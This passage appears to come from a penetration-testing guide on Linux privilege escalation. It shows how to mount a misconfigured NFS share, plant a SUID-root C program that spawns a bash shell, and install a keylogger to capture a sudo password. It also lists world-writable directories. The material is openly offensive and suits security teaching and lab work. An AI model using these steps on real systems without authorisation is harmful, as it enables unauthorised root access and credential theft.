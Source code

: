### NFS Share

If you find that a machine has a NFS share you might be able to use that to escalate privileges. Depending on how it is configured.

```text
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101

# If it does, then mount it to you filesystem
mount 192.168.1.101:/ /tmp/
```

If that succeeds then you can go to `/tmp/share`. There might be some interesting stuff there. But even if there isn't you might be able to exploit it.

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

## Steal password through a keylogger

If you have access to an account with sudo-rights but you don't have its password you can install a keylogger to get it.

## Other useful stuff related to privesc

**World writable directories**

```text
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
```
